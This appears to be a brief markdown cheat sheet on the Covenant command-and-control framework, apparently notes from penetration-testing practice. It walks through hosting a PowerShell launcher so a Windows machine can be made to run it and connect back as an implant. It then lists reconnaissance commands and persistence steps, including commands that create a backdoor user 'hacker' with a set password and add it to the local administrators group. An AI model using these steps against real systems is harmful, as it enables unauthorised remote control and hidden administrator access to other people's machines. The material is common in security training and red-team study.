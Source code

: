 # Covenant

## Covenant Terms

* Listener
* Grunt

## Covenant Grunt Commands

* `whoami` - who am I
* `Seatbelt -group=all` - get system info about everything
* `GetDomainUser` - get domain users

## How to get a grunt

* Make sure attacker's antivirus is turned off

* Create a Listener
  * Be sure to change ConnectAddresses
* Go into Launchers
  * Click on Powershell
  * Select Listener
  * Go into  Host
  * type in `/rev.ps1` and click host
  * Take note of the EncodedLauncher command
* Get Windows machine to run the command
* Once ran, go into Grunts
* Enjoy!

## PowerUp.ps1

```
PowershellImport

* select file * 

powershell i
```

## Persistence

Run these commands on a Grunt:

```
shellcmd net users hacker Password123! /add
```

```
shell net localgroup administrators hacker /add
```

PersistStartup

